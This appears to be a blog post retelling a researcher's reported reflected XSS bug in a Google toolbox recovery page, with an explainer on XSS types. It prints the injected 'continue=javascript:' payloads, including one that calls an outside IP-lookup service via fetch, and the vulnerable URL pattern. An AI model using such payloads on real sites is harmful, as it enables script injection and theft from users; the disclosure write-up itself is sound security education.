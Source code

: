 ```yaml
---
slug: google-xss-bug
title: Found a Google XSS Vulnerability
---
```


Programmer Matan found an [XSS vulnerability](https://matan-h.com/common-google-xss) and reported it to Google, receiving a reward of $3,133.7 (approximately **¥22,666 RMB**).

Here are Google Bug Hunter's reward rules:
![](https://img.wukaipeng.com/2024/05/11-145858-1ntD9Q-693fe8f451cb41d09db69c3b6f7502d2.png)

> 👉 Image from https://bughunters.google.com/about/rules/google-friends/6625378258649088/google-and-alphabet-vulnerability-reward-program-vrp-rules

Here's how it started. Matan read an [article exposing a Google SSRF vulnerability](https://www.rcesecurity.com/2017/03/ok-google-give-me-all-your-internal-dns-information/) that mentioned this Google website:

📍 https://toolbox.googleapps.com

So he began exploring, first by **checking the robots.txt file**:

```
#apps-toolbox
User-Agent: *
Allow: /apps/main
Allow: /apps/browserinfo
Allow: /apps/checkmx
Allow: /apps/dig
Allow: /apps/har_analyzer
Allow: /apps/loganalyzer
Allow: /apps/loggershark
Allow: /apps/messageheader
Allow: /apps/recovery
Allow: /apps/useragent
Allow: /apps/other_tools
Allow: /apps/encode_decode
Allow: /apps/screen_recorder
Disallow: *
```

> robots.txt is a file at the website's root directory that tells web crawlers which pages can be crawled and which cannot, to **avoid the website being overloaded with crawler requests**.

In the robots.txt file, each link corresponds to a tool webpage.

But there's one exception: `/apps/recovery` cannot be accessed directly.

After a simple search, he discovered it has subpages:

```
recovery/domain_in_use
recovery/form
recovery/ownership
```

These subpages can all accept multiple URL parameters, for example:
```
recovery/domain_in_use?visit_id=xxx&user=xxx&domain=xxx&email=xxx
```

If you enter this **continue redirect link**:

```
https://toolbox.googleapps.com/apps/recovery/ownership?domain=example.com&email=email@example.com&case=45500368&continue=/apps/recovery/...
```

This link contains the parameter `domain=example.com`, and note there's also a `continue=/apps/recovery/...` parameter.

Entering this continue redirect link gives a prompt:

![](https://img.wukaipeng.com/2024/05/11-145858-ujXByq-ecb74bb86e2b4d8e993acc17f83a4067.png)

Here's where the problem was discovered - the CONTINUE button's link actually comes from the `continue` parameter!

Matan tested it by injecting JavaScript code: `.../continue=javascript:alert(document.domain)`

![](https://img.wukaipeng.com/2024/05/11-145858-vGGmIx-50e529c68ed04cdc93fdf4d140613673.png)

Successfully executed ✅

This website has no CSP security policy and no protective measures, so it can fetch resources from any external source.

He continued trying to load an external malicious script that retrieves the user's IP address:

```
.../continue=javascript:fetch(%27https://api.ipify.org?format=json%27).then(response=%3Eresponse.text()).then(data=%3E{alert(data);%20})
```

Also successfully executed ✅

At this point, the XSS vulnerability was confirmed.

Let's review XSS knowledge:

XSS (Cross-Site Scripting), **cross-site scripting attack**, occurs when validation is not properly done, trusting user input and accepting malicious input from attackers (usually JavaScript code), causing that malicious input to execute on other users' pages. XSS is generally divided into three types:
1. **Stored**: Malicious input is permanently stored in the backend service. Whenever users open the website and retrieve that malicious input, the browser executes it.
2. **Reflected**: Malicious input is embedded in URLs or other inputs and immediately forwarded by the backend. As long as users visit the crafted URL, the browser executes it.
3. DOM-based: Attackers manipulate the user's DOM structure to execute malicious code.

Matan's example above is a typical reflected XSS.

But this XSS is so basic that even Matan himself found it hard to believe, especially since Google's technology is famously good in the industry.

However, Google habitually uses their own frameworks, and when these frameworks don't implement proper security policies, product failures are inevitable.
